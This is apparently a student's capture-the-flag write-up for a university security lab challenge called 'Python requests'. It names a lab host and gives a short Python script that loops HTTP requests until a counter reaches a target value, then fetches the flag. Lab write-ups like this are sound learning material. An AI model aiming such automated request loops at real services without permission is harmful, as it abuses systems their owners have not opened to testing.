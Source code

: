 # Challenge `Python requests` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to brute-force attack

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23053`

- Impact: What results of exploiting this vulnerability
  - Allows the user to brute-force tries to get the correct result

## Steps to reproduce

1. Start a `requests` session
2. Access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23053/hello`
3. Extract the target and current total from the page text
4. Repeatedly access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23053/more` until the total equals the target
5. Access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23053/finish` to get the flag

The code used was the following:

```py
  import requests
  import re

  session = requests.session()
  session.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23053/hello")
  res = session.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23053/more")
  nums = re.findall(r'\d+', res.text)

  while nums[2] != nums[1]:
      res = session.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23053/more")
      nums = re.findall(r'\d+', res.text)

  finish = session.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23053/finish")
  print(finish.text)
```
